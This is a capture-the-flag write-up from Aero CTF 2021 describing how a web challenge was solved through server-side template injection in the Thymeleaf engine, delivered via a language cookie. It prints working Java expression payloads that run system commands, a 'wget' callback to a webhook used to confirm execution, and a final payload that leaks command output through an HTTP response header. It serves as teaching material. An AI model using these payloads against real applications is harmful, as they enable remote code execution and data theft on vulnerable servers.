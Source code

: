 ## Aero CTF 2021
### Author: p4w @ [beerpwn](https://beerpwn.it)
### Twitter https://twitter.com/p4w16

## Challenge description (Web category)
![alt img](chall-desc.PNG)

## TL;DR
__Server Side Template Injection__ on __Thymeleaf__ template engine to gain __RCE__.

## Solution
### Discovery of the vuln
The challenge description says that the site is __available in english and russian__, this probably is written to point the attention to something involving the language.
Also the challenge description tell that the flag should be located at `/` on the file system, this make me think that it is necessary to gain at least an __arbitrary file read__ or __RCE__ to get the flag.
By inspection the site it is possible to notice that we can choose the language by clicking on a button.
As it is possible to notice that when the button is clicked (`onclick` event), then the `set_language(lang)` function will be executed.

![alt img](site.PNG)

![alt img](js.PNG)

The function simply set a cookie named __lang__ with the values __en__ or __ru__ and then reload the page.
Let's inspect the requests with burp-proxy.

![alt img](normal-req.PNG)

The first thing that I tried during the CTF, was to modify the cookie with some simple directory traversal payloads.

![alt img](dir_trav_3.PNG)

![alt img](dir_trav_1.PNG)

![alt img](dir_trav_2.PNG)

The directory traversal seems working, but if we try to include some arbitrary file (such as __/etc/passwd__) we got a __500 internal server error__. The error is verbose enough to show the server side exception: __org.thymeleaf.exceptions.TemplateInputException__ and
by googling this error, I come across to this template engine: [thymeleaf](https://www.thymeleaf.org/).

![alt img](thymeleaf.PNG)

The exception thrown seems to be related to loading the template, and that smells like __SSTI__ to me. So I start searching for __SSTI on Thymeleaf__ and I discovered a couple of related articles:
* [https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/](https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/)
* [https://www.veracode.com/blog/secure-development/spring-view-manipulation-vulnerability](https://www.veracode.com/blog/secure-development/spring-view-manipulation-vulnerability)

### Exploitation
Reading these articles, we can notice that a template injection in __Thymeleaf__ it may be possible if _a template name or a fragment are concatenated with untrusted data_.
To get a better explanation and details I really council the readers to read the articles mentioned before.
The proposed payloads to gain __RCE__ are these:

* `__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("<cmd-here>").getInputStream()).next()}__::.x`
* `${T(java.lang.Runtime).getRuntime().exec('<cmd-here>')}`

At this point I simply tried one of these payloads into the __lang__ cookie with a command such as ping `wget <webhook-endpoint>` to verify the __command execution__
and it worked __:=)__.

![alt img](rce-poc-2.PNG)

Now I had __RCE__ and since the flag was located in __/__, I needed some way to enumerate the file system contents and extract the flag. Problem was that it was not possible to use all the bash functionality such us `|, &, ``, $`. I also tried to extract files with and write files with `wget`, but no luck with that solution.
To summarize I had the ability to run commands, but no way to build a payload (__time based__ or __OOB__) that allow me to extract the output of an arbitrary command.
At this point I start to read the __thymeleaf__ [documentation](https://www.thymeleaf.org/doc/tutorials/3.0/usingthymeleaf.html) and some [Java-doc](https://docs.oracle.com/javaee/6/api/javax/servlet/http/HttpServletResponse.html) for Java objects, the basic idea that I had was to insert the output of the executed command directly into the __response__, for example by using a crafted HTTP header response with the output. After a bit of pain, I was able to build this payload: `__${#response.setHeader("cmd-out","test")}__::.x` and it worked __:)__!\
*[the above payload should work well on __Thymeleaf 3.0__, probably for __Thymeleaf 2.1__ could be: `__${#ctx.httpServletResponse.setHeader("cmd-out","test")}__::.x`]

![alt img](thymeleaf-doc.PNG)

![alt img](javadoc.PNG)

![alt img](set-header.png)

Now that we have the ability to modify the response, I simply played a bit with the Java-doc to build a payload that reads the output of the command and save it into the crafted header.
The final payload:
```
__${#response.setHeader(\"cmd-out\",#uris.escapeQueryParam(new java.io.BufferedReader(new java.io.InputStreamReader(T(java.lang.Runtime).getRuntime().exec(\"ls\").getInputStream())).lines().toArray()[0]))}__::.x
```
This payload will execute the `ls` command, read the first line, url-encode it and insert in the `cmd-header` of the HTTP response.

[Here](./x.py) you can download a simple python script that I made during the CTF to automate all of these steps and read all the lines of the executed command.

![alt img](script-run.PNG)

That's all folks, I think that was really an interesting challenge!\
Cheers, [p4w](https://twitter.com/p4w16) =)
